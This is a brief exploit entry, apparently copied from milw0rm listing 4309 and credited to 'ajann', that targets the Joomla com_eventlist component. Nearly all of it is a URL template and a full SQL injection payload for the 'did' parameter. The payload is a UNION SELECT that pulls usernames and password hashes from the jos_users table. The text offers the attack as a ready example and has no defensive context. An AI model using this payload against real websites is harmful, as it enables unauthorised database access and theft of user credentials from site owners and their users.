

# ATTACK - EXAMPLE
http://www.milw0rm.com/exploits/4309
[[SQL]]]---------------------------------------------------------

http://[target]/[path]//index.php?option=com_eventlist&func=details&did=[SQL Inject]

Example:

//index.php?option=com_eventlist&func=details&did=9999999999999%20union%20select%200,0,concat(char(117,115,101,114,110,97,109,101,58),username,char(32,112,97,115,115,119,111,114,100,58),password),4,5,6,7,8,9,00,0,444,555,0,777,0,999,0,0,0,0,0,0,0%20from%20jos_users/*

[[/SQL]]

"""""""""""""""""""""
# ajann,Turkey
# ...

# Im not Hacker!